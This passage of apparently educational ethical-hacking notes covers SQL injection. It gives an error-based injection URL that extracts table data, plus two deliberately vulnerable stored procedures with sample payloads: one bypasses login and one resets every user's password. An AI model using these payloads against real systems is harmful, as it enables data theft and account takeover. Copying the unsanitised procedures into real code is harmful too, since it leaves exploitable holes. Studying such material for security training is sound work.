 ##### Extract First Field of First Row (data)

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 COLUMN-NAME-1 FROM TABLE-NAME-1))--

Syntax error converting the nvarchar value '[FIELD 1 VALUE]' into a column of data type int

#### Perform Error based SQL injection using Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must **properly sanitize the user input** to eliminate the risk of code injection, otherwise there is a chance of malicious SQL being executed within the stored procedure

```sql
-- this procedure does not sanitize the input, allowing the return value to display an existing record with these parameters
CREATE PROCEDURE user_login @username varchar(20), @passwd varchar(20)
As
DECLARE @sqlstring varchar(250)
SET @sqlstring = '
SELECT 1
FROM users
WHERE username = ' + @username + ' AND passwd = ' + @passwd

EXEC(@sqlstring)
GO

-- User input: anyusername or 1=1' anypassword
```

```sql
-- this results in the report running and all users' passwords being updated
CREATE PROCEDURE get_report @columnamelist varchar(7900)
As
DECLARE @sqlstrin varchar(8000)
SET @sqlstring = ' SELECT ' + @columnamelist + ' FROM ReportTable'
EXEC(@sqlstring)
GO

-- User input: 1 FROM users; UPDATE users SET password = 'password'; SELECT *
```

#### Bypass website logins using SQL injection

![Bypass website logins](img/sql_inj_bypass_user_login.png)
